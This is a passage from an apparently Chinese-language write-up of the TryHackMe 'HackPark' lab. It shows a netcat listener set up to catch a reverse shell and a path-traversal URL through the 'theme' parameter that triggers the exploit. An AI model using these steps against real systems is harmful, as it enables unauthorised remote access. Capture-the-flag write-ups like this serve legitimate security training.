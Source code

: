          ![Alt text](/style/image/image-298.png)

      + 设置监听：

         ```
         ┌──(kali㉿kali)-[~/桌面/THM/HackPark]
         └─$ nc -nlvp 4445
         listening on [any] 4445 ...
         ```

      + 通过访问``http://10.10.10.10/?theme=../../App_Data/files`` 触发漏洞（此处修改ip为目标站点）

         ![Alt text](/style/image/image-299.png)
